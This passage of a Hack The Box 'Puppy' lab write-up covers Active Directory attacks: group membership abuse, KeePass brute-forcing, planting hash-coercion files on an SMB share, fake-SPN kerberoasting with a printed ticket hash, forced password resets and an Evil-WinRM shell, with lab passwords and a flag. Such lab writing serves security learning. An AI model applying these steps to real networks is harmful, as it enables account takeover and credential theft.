[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 3 gpos parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_gpos.json created!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] 73 containers parsed!
[2025-05-18T15:03:22Z INFO  rusthound_ce::json::maker::common] .//20250518170322_puppy-htb_containers.json created!

RustHound-CE Enumeration Completed at 17:03:22 on 05/18/25! Happy Graphing!

```



Now our user it is part of the HR domain user which allows us to add ourself to the Developers domain group? This might be the answer on how to login to the DEV samba share.

Now I will use powerview.py to do it easily!

```
└─# powerview puppy.htb/levi.james:'KingofAkron2025!'@puppy.htb
Logging directory is set to /root/.powerview/logs/puppy-levi.james-puppy.htb
[2025-05-18 17:31:10] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAP)-[DC.PUPPY.HTB]-[PUPPY\levi.james]
PV > Add-Domain
Add-DomainCATemplate      Add-DomainComputer        Add-DomainGPO             Add-DomainGroupMember     Add-DomainObjectAcl       
Add-DomainCATemplateAcl   Add-DomainDNSRecord       Add-DomainGroup           Add-DomainOU              Add-DomainUser            
(LDAP)-[DC.PUPPY.HTB]-[PUPPY\levi.james]
PV > Add-DomainGroupMember -Identity Developers -Members Levi.James
[2025-05-18 17:31:53] User Levi.James successfully added to Developers
(LDAP)-[DC.PUPPY.HTB]-[PUPPY\levi.james]
PV > 

```

# Back on Samba

Now should be able to reach the samba share right?  


I see some keepass credentials file?   The project folder is void so I guess we can move on to keepass file?



Can we reuse the same inital password? Seems nah!



Now this means we need to find the credentials password hash and decrypt it somehow... But after a long search seems like this issue is fixed in a experimental build and an alternative might be by using this script: https://github.com/r3nt0n/keepass4brute/tree/master



Now this approach is much slower as we are wrpaping the Keepass-XC cli to test every single word... But thanks God it worked quite right!

```bash
└─# ./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 60 - Estimated time remaining: 23 weeks, 5 days
[+] Current attempt: liverpool

[*] Password found: liverpool

```

Now if we open it we can see password of some users?



Now all of them have same timestamp except the Jamie's, might this be a sign that only that one is the right one? 

```txt
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!

```

And here only one user works out of the box:



Before moving on I will check if this user can see something other on the shares?



No new files but he can write on the share, it might be a good idea to check if we can obtain some more hashes by adding some malicious files and fetching the requests in Responder?



And now these files can be uploaded under the Project folder?

```
└─# smbclient //puppy.htb/DEV -U 'puppy.htb/ant.edwards' 'Antman2025!'
Try "help" to get a list of possible commands.
smb: \> cd Projects\
smb: \Projects\> ls
  .                                   D        0  Mon May 19 01:06:53 2025
  ..                                 DR        0  Mon May 19 00:56:36 2025
  backup.pdf                          A      770  Mon May 19 01:06:53 2025

        5080575 blocks of size 4096. 1487505 blocks available
smb: \Projects\> prompt OFF
smb: \Projects\> mput *
putting file backup.pdf as \Projects\backup.pdf (9.3 kb/s) (average 9.3 kb/s)
putting file zoom-attack-instructions.txt as \Projects\zoom-attack-instructions.txt (1.4 kb/s) (average 5.4 kb/s)
putting file backup.lnk as \Projects\backup.lnk (27.8 kb/s) (average 12.6 kb/s)
putting file backup-(icon).url as \Projects\backup-(icon).url (1.4 kb/s) (average 9.9 kb/s)
putting file backup.scf as \Projects\backup.scf (1.1 kb/s) (average 8.2 kb/s)
putting file backup.asx as \Projects\backup.asx (2.0 kb/s) (average 7.2 kb/s)
putting file backup.jnlp as \Projects\backup.jnlp (2.6 kb/s) (average 6.6 kb/s)
putting file backup-(remotetemplate).docx as \Projects\backup-(remotetemplate).docx (267.4 kb/s) (average 46.5 kb/s)
putting file backup-(fulldocx).xml as \Projects\backup-(fulldocx).xml (716.0 kb/s) (average 137.8 kb/s)
putting file backup-(stylesheet).xml as \Projects\backup-(stylesheet).xml (2.2 kb/s) (average 125.6 kb/s)
putting file backup.htm as \Projects\backup.htm (1.1 kb/s) (average 115.4 kb/s)
putting file backup-(includepicture).docx as \Projects\backup-(includepicture).docx (136.7 kb/s) (average 117.1 kb/s)
putting file backup-(url).url as \Projects\backup-(url).url (0.8 kb/s) (average 108.8 kb/s)
putting file backup.wax as \Projects\backup.wax (0.7 kb/s) (average 101.5 kb/s)
putting file backup.m3u as \Projects\backup.m3u (0.7 kb/s) (average 95.2 kb/s)
putting file backup.application as \Projects\backup.application (22.1 kb/s) (average 90.9 kb/s)
putting file backup-(frameset).docx as \Projects\backup-(frameset).docx (134.9 kb/s) (average 93.4 kb/s)
putting file backup-(externalcell).xlsx as \Projects\backup-(externalcell).xlsx (76.2 kb/s) (average 92.4 kb/s)
putting file Autorun.inf as \Projects\Autorun.inf (1.1 kb/s) (average 87.9 kb/s)
putting file backup.rtf as \Projects\backup.rtf (1.4 kb/s) (average 83.8 kb/s)
putting file desktop.ini as \Projects\desktop.ini (0.6 kb/s) (average 80.1 kb/s)
smb: \Projects\> ls
  .                                   D        0  Mon May 19 01:07:45 2025
  ..                                 DR        0  Mon May 19 00:56:36 2025
  Autorun.inf                         A       79  Mon May 19 01:07:45 2025
  backup-(externalcell).xlsx          A     5853  Mon May 19 01:07:45 2025
  backup-(frameset).docx              A    10223  Mon May 19 01:07:45 2025
  backup-(fulldocx).xml               A    72585  Mon May 19 01:07:44 2025
  backup-(icon).url                   A      108  Mon May 19 01:07:44 2025
  backup-(includepicture).docx        A    10216  Mon May 19 01:07:44 2025
  backup-(remotetemplate).docx        A    26283  Mon May 19 01:07:44 2025
  backup-(stylesheet).xml             A      163  Mon May 19 01:07:44 2025
  backup-(url).url                    A       56  Mon May 19 01:07:45 2025
  backup.application                  A     1650  Mon May 19 01:07:45 2025
  backup.asx                          A      147  Mon May 19 01:07:44 2025
  backup.htm                          A       79  Mon May 19 01:07:44 2025
  backup.jnlp                         A      192  Mon May 19 01:07:44 2025
  backup.lnk                          A     2164  Mon May 19 01:07:44 2025
  backup.m3u                          A       49  Mon May 19 01:07:45 2025
  backup.pdf                          A      770  Mon May 19 01:07:44 2025
  backup.rtf                          A      103  Mon May 19 01:07:45 2025
  backup.scf                          A       85  Mon May 19 01:07:44 2025
  backup.wax                          A       56  Mon May 19 01:07:45 2025
  desktop.ini                         A       47  Mon May 19 01:07:45 2025
  zoom-attack-instructions.txt        A      116  Mon May 19 01:07:44 2025

        5080575 blocks of size 4096. 1487469 blocks available
smb: \Projects\> 

```

Now that the files are uploaded I will spawn a Responder session listening on my VPN NIC. Unfortunately this did not help at all as no request came in so far!



And this user possesses no WINRM permissions over the machine!



# Back on AD

Checking back on Bloodhound we can see that Edwards is member of another domain group that can be abused to obtain access to a third user in the domain Adam.


Now the easiest and cleanest approach is to add a generic SPN and try to kerberoast.

```
└─# python3 targetedKerberoast.py --dc-ip 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' --request-user Adam.Silver
[*] Starting kerberoast attacks
[*] Attacking user (Adam.Silver)

```

The tool is not understanding the task, most likely caused by the nested group. I will use addspn.py from the krbrelayx suite to add a dummy SPN manually instead.

```bash
└─# python3 addspn.py -u 'puppy.hbt\ant.edwards' -p 'Antman2025!' -dc-ip 10.10.11.70 -s 'HTTP/FAKESPN' -t 'Adam.Silver' 10.10.11.70 --target-type samname
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully

```



Now we should be able to obtain the password hash?



Ah damnit! The account is disabled, that's why targetedkerberoast.py failed, we must enable it back!



And now we have it!

```bash
└─# netexec ldap puppy.htb -u 'ant.edwards' -p 'Antman2025!' --kerberoast kerberoast.txt                           
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
LDAP        10.10.11.70     389    DC               [*] Skipping disabled account: krbtgt
LDAP        10.10.11.70     389    DC               [*] Total of records returned 1
LDAP        10.10.11.70     389    DC               [*] sAMAccountName: adam.silver, memberOf: ['CN=DEVELOPERS,DC=PUPPY,DC=HTB', 'CN=Remote Management Users,CN=Builtin,DC=PUPPY,DC=HTB'], pwdLastSet: 2025-05-19 01:34:29.241631, lastLogon: 2025-05-18 19:54:15.507342
LDAP        10.10.11.70     389    DC               $krb5tgs$23$*adam.silver$PUPPY.HTB$PUPPY.HTB\adam.silver*$6310ad3abb41263f8fbc1b1a07595d83$256fddec908356ede0e7eed44fcffb576e7ab63e3726b7540c079a8321c20b17c77eedf269712935853ad436ac0f3dcdd38287003942c69d1c210a05e4a2107b0449957780e04a5b93fa6ae6478aac0c620b0f60b1ffa0f0c87b59902acfffbede01bd65047a2e0ed222b5bb7e0b78be56638a1c59656a22a0974a53c6d48c07694fe3bb0a66b6c9f6a79ca906eee1f47fe5b167db1d9bbbbde6529637828df5655aa24c312b09c6d9799ed49fefef492b21643b4b5cc32c525fc20b01e209e9e56764a3cd6c2037567cb27c96b21435e08ed510ea09bef6c2e59eff9b50a947c22554c937fb3963b817733a69dd53194ab67e214e55135c7c73f06951dce0e7c6e89a47685f909e4e59dd965f5c058be0d327f323b897b33dcae39163d37834bce142f622602085c80c9bc44e7e5b6158f735efcfc30f218e4179b1aa59adfefcc33f9ff14367d5b29001ea102fdb8d83e4542f8b83bb165eaa702d4b538280fb4b4b8e9a61879785086e1cf3474d944db759b1b95c4dd767df672714f66b2da589e1716ee416c4804dcabb75fef68883c751d1dc91ef676783c3c3b87565c444d73bf2521062030f98a04d847e9f3ac4fc0b1bb78296fd2e3541e5c4014b4e3f29568638470535f27da1eeff18a9eed998d0c27d67202a80ae3205d00a18cfa4a0b6a66e484cce9b8e72bdbc1c37a4296c1a0fd136a6abc754740c7cf330ff82d3d4142e1d66d81084a8d2c532775d87c340a0554f25f75e1eacb1b71ce8ebb6682bc3ebfdc1eba432282b1f30fd68dcff232fe962d5279d4411a29ca54f34ff6064769d42fa3f0c0d2f7ce0cb2f79f53bffbf71048fa3db9ce3756b29c8b152821244c34aac892730011892c85408aa82a4f559c7a0f0c70cbda690093985cd34a0ec431a106b53fa0c9b21fef509f83b925336815d25c17ebc4b604d9b57927d4b2e19ec5b897fabdd1a3851b268c717dc61c549562e3c2f4483b63d2c3ffd8534d63b9f1b6c18aa9cc1635511871ea74089abc60ee38494a205947369196feca0445b7ed675237178cfcd1acf10763a9ecd5f01b3437a986bdac6a6bda02d5648a547b612d68a7e0fd5af0b7f023a04ad3d7ba6df71a24ea9f758e2ddf468cb5a29348e116a23ad2250b117f672d9b6194ac65534953d87366bdce0577aee8901f8da6e5015fc29f3c716d00f68329fd956abad5fb61b7bb4274e881db1e619df826a1538760fbba743b3f0c3ff1577165f21bade464e8c5ea632f360d8d575082ca55f76ccc66fdb233a379a14a99e17209dcb09aa94d26f3b09185a085f2f70d241ccc029aae86d9959c008f5a0df1dc166fd550a9349cba34d2d0dd5af9c99a910d2392e0285d6c2172ea3768370298df7e9f2f808266ab82062059cb993ce460612bd30cf8123542d5f4d04a92b8c43a8c69e84f13127714be62162f29db8c12b7ef3f66a61d28fc62060aa71c9d0c574a04b1a0c039edf2ba1f495849a39b8b40e48fe420f8c6939b151f3aa229811965346099018b38002cdeedc6b126ce8619483e8567ad715a3910b0cc8e18bc654e9a6ced00eea1a01d9a61d9dd381ce0bc3e27a1668abe96d452014b62755b8bf

```

But the password is not crackable:



We could try to use the shadow credentials attack, but my experience showed me that it works only  if ADCS is active and it is not in this case!



Which means the only way here is to enable back the domain user and perform a password reset (i did in Powerview.py)

```bash
PV > Set-DomainUserPassword -Identity Adam.Silver -AccountPassword 'Coglione1!'
[2025-05-19 01:48:43] [Set-DomainUserPassword] Principal CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB found in domain
[2025-05-19 01:48:44] [Set-DomainUserPassword] Password has been successfully changed for user adam.silver
[2025-05-19 01:48:44] Password changed for Adam.Silver
(LDAP)-[DC.PUPPY.HTB]-[PUPPY\ant.edwards]
PV >                          
```

And now we should be able to login to the machine? i mean he is part of the remote management domain group which allows the WINRM connection?



Here it must be done quickly as it seems a auto-script is disabling the account, but it eventually worked like a charm!

```bash
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         5/17/2025  10:23 PM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
bc331a221b478b798de550fa843bdaf1
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> 

```

# Road to Root.txt

Now we can check that the user can domain join a new computer, this might allow us to abuse the NoPAC?



Now we can see some other devices on the machine so far:  


Now looking around I can see a possible backup?



Now unzipping the archive it seems clearly a intenal site, but we can find some ldap hardcoded credentials for another user?


```xml
└─# ll
total 20
drwxrwxr-x 6 root root 4096 Dec 31  1979 assets
drwxrwxr-x 2 root root 4096 Dec 31  1979 images
-rw-rw-r-- 1 root root 7258 Dec 31  1979 index.html
-rw-r--r-- 1 root root  864 Dec 31  1979 nms-auth-config.xml.bak
